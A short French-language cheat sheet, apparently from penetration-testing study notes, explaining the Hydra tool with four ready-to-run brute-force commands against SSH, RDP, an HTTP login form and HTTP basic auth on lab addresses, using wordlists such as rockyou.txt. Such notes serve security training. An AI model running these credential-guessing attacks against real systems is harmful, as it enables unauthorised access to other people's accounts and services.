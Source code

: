 ## Hydra
Permet d'utiliser un mot ou une liste de mot pour trouver nom d'utilisateur et/ou le mot de passe pour différent services.
* Utiliser `^USER^` `^PASS^` pour démarquer les creds.
* `-u` alterner les mots de passes et usagers
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#ssh
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
#rdp
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
#http-post form
#Dernier paramètre: “/chemin:post_request:fail_condition”
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
#basic auth
hydra -l admin -P /usr/share/wordlists/rockyou.txt -f https-get://192.168.241.201/index.php
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~